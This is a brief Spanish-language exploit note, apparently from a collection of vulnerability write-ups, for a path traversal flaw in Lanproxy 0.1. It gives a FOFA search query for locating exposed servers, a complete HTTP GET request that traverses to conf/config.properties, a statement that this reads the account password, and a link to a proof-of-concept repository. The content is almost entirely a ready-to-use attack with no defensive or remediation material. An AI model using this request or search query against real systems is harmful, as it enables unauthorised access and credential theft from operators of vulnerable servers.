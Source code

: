 <languages  />

Impacto de la vulnerabilidad
----------------------------

    Lanproxy 0.1

FOFA
----

    header= "Server: LPS-0.1"

Envíe la siguiente solicitud:

    GET /../conf/config.properties HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

Leer correctamente la contraseña de la cuenta en el archivo de configuración.

POC
---

<https://github.com/FanqXu/CVE-2021-3019/>